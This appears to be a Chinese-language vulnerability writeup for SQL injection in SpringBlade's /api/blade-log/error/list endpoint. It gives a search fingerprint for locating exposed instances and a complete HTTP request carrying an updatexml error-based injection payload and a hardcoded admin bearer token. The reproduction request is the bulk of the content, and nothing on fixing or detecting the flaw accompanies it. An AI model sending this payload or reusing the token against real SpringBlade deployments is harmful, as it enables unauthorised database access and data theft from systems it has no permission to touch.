 # SpringBlade error/list 存在SQL注入漏洞

# 一、漏洞简介
SpringBlade  /api/blade-log/error/list路径存在安全漏洞，攻击者利用该漏洞进行SQL注 入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/BZdErnm7v21TUqLj/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-817083.png)

# 四、漏洞复现
```java
GET /api/blade-log/error/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: */*
Connection: Keep-Alive
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![1710407897035-51869d8b-325a-46cf-84c9-d54a254547cf.png](./img/BZdErnm7v21TUqLj/1710407897035-51869d8b-325a-46cf-84c9-d54a254547cf-741901.png)



> 更新: 2024-12-13 17:10:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zrkt4t6xd5xn3yek>